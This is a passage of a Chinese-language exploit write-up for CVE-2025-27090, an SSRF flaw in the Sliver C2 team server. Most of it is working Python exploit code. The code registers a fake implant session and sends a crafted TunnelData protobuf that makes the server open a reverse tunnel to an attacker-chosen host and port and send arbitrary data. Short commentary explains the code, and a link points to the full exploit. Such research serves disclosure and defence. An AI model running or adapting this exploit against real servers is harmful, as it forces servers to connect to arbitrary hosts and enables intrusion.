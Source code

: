 ```
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:    with ssl_ctx.wrap_socket(s,) as ssock:        ssock.connect((ip, port)) # [1]        ssock.settimeout(0.5)        print("[***] 注册会话")        registration_envelope = generate_registration_envelope().SerializeToString() # [2]        registration_envelope_len = struct.pack('I', len(registration_envelope))        ssock.write(registration_envelope_len + registration_envelope) # [2]        time.sleep(0.5)        print("[***] 创建隧道")        reverse_tunnel_envelope = generate_create_reverse_tunnel_envelope(callback_ip, callback_port, data).SerializeToString() # [3]        reverse_tunnel_envelope_len = struct.pack('I', len(reverse_tunnel_envelope))        ssock.write(reverse_tunnel_envelope_len + reverse_tunnel_envelope) # [3]        print("[***] 已发送数据\n" + data.decode().rstrip())        print("[***] 从连接读取")        for i in range(4): # [4]            try:                print(ssock.read().decode(errors='ignore')) # [4]            except: continue
```  
  
让我们看看 generate_registration_envelope  
 和 generate_create_reverse_tunnel_envelope  
 函数。对于这两个函数,我们从一个字典开始,该字典将被格式化并序列化为一个 Envelope  
 protobuf。注册字典的内容并不重要,但为了利用漏洞,我们需要设置一些隧道字典字段。  
  
我们可以在 [1]  
 处看到我们将 CreateReverse  
 设置为 True  
,这样我们就可以命中 tunnelDataHandler  
 中允许我们创建新反向隧道的分支。在 [2]  
 处我们设置我们想让团队服务器打开隧道的 IP 和端口,在 [3]  
 处我们指定团队服务器将通过隧道发送的 base64 数据。  
```
def generate_registration_envelope():    random_string = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(10))    register_data = {            "Name": random_string,            "Hostname": "chebuya-" + random_string + ".local",            "Uuid": "uuid"+ random_string,            "Username": "username"+ random_string,            "Uid": "uid"+ random_string,            "Gid": "gid"+ random_string,            "Os": "os"+ random_string,            "Arch": "arch"+ random_string,            "Pid": 1337,            "Filename": "filename"+ random_string,            "ActiveC2": "activec2"+ random_string,            "Version": "version"+ random_string,            "ReconnectInterval": 1337,            "ConfigID": "config_id"+ random_string,            "PeerID": -1337,            "Locale": "locale" + random_string            }    register = sliver.Register()    json_format.Parse(json.dumps(register_data), register)    envelope = sliver.Envelope()    envelope.Type = msgs.index('Register')    envelope.Data = register.SerializeToString()    return envelopedef generate_create_reverse_tunnel_envelope(ip, port, data):    tunnel_data = {            "Data": base64.b64encode(data).decode(), # [3]            "Closed": False,            "Sequence": 0,            "Ack": 0,            "Resend": False,            "CreateReverse": True, # [1]            "rportfwd": {                "Port": port, # [2]                "Host": ip, # [2]                "TunnelID": 1,                },            "TunnelID": 1,            }    tunnel = sliver.TunnelData()    json_format.Parse(json.dumps(tunnel_data), tunnel)    envelope = sliver.Envelope()    envelope.Type = msgs.index('TunnelData')    envelope.Data = tunnel.SerializeToString()    return envelope
```  
  
这完成了漏洞利用的大部分重要部分,你可以在**这里**  
(https://github.com/chebuya/exploits/tree/main/CVE-2025-27090%3A%20Sliver%20C2%20SSRF  
)找到完整版本。  
  
  
